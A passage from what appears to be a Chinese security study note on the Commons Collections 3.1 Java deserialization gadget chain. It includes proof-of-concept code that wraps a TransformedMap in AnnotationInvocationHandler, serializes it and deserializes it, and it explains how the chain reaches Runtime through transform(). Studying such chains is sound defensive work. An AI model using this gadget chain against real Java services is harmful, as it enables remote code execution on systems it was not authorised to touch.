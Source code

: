 ```java
        Map map = new HashMap();
        map.put("value", "value");
        Map transformedMap = TransformedMap.decorate(map, null, transformerChain);
        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor annotationInvocationHandler = c.getDeclaredConstructor(Class.class, Map.class);
        annotationInvocationHandler.setAccessible(true);
        Object instance = annotationInvocationHandler.newInstance(Target.class, transformedMap);
        serialize(instance);
        unserialize("ser.bin");
    }
    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }
    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}
```

环境说明：`jdk1.7`，`commons-collections3.1.jar`

关于解决这个环境问题，用了我将尽一下午的时间，然后废话不多说，分析这个链子之前，关于CC链的原理，为什么是链子，我之前都很迷惑，所以这次顺便记录一下。



`commons-collections3.1`的执行原理就是找到我们想要执行的危险方法。比如：`exec()`、`transform()`因为这里的链子是利用了`transform()`。然后向上找，看看有哪些方法执行的时候调用了这个危险方法，进而一级一级向上寻找这个方法，知道最后。找到一个可控输入的方法，去调用。一级一级向下进行debug。这么说会有点迷，所以看流程图比较直观。

![img](img/11.png)

这样形成一个链子。（其中利用的方法也不是随意选择的，需要考虑方法是否可序列化）

然后分析下这个链子。

`Transformer`实例化一个数组`transformers`，将构建了任意函数执行的核心代码填充进数组中。这样方便调用。`transforms`数组里面的函数执行核心代码在上面Transform细究中已经解释的比较详细了。命令执行不是这个环节，这里分析下怎么进行调用，CC链执行。

```java
chainedTransformer.transform(Runtime.class);
```

这句代码用是调用`transform()`，构造的链子就是需要调用不同类中的同名方法来实现这个结果。

查找Usages，看看项目和lib包中有哪些拥有`transform()`方法
